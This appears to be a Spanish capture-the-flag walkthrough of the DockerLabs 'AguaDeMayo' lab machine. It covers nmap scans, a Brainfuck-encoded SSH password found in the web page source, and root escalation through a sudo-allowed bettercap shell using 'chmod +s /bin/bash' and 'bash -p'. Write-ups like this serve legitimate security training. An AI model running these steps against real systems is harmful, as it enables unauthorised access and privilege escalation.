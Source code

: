 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AaguaDeMayo DockerLabs (Easy)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip aduademayo.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh aguademayo.tar
```

Info:

```
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 08:22 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

### Gobuster

```shell
```

Info:

```
```

Vemos que hay un directorio llamado `/images` si vamos ahi hay una imagen sospechosa llamada `agua_ssh.jpg` pero aparentemente no hay gran cosa, si vemos el codigo de la pagina de `apache2` veremos lo siguiente.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++.>+++++++++++..----.<<++.>>-------.+..+++++++++++.<<.>>-------.+++++.++++++.-----.<<.>>-.-------------.+++++++++++++++++++.+.---.-------------.<<.>>----.+++++++++++++.----------.<<.>>++++++++++++++++.------------.---.+++++++++.<<.>>+++++++++++.----------.++++++.<<.>>++.--------------.+++..<<.>>+++++++++.-------.----------.+.+++++++++++++.+.+.-------------------.+++++++++++++.----------.<<.>>+.+++++++++++++++++.-----------------.+++++++++++++.+++++++.-----.------------.+.+++++.-------.<<.>>-----.+++.+++++++++++++++..---------------.+++++++++++++.<<++++++++++++++.------------.
```

Un codigo de encriptacion `Brainfuck` y si lo desencriptamos dira algo como...

```
bebeaguaqueessano
```

Por lo que podria ser una posible contraseña y si probamos como nombre de usuario `agua` como pone en la imagen.

```shell
ssh agua@<IP>
```

Y como contraseña `bebeaguaqueessano` veremos que entramos dentro de la maquina.

> Credentials

```
User = agua
Pass = bebeaguaqueessano
```

### Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for agua on 29a2587cdbbf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 29a2587cdbbf:
    (root) NOPASSWD: /usr/bin/bettercap
```

Y si lo iniciamos.

```shell
sudo bettercap
```

Nos metera en una shell del binario, pero si hacemos `help` veremos lo siguiente.

```
help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
```

Por lo que vemos podemos ejecutar comandos del sistema poniendo `!` delante de cada comando, por lo que si hacemos.

```shell
!chmod +s /bin/bash
```

Añadiremos `SUID` a la `bash` por lo que si nos salimos de ahi y ponemos.

```shell
bash -p
```

Seremos `root`.
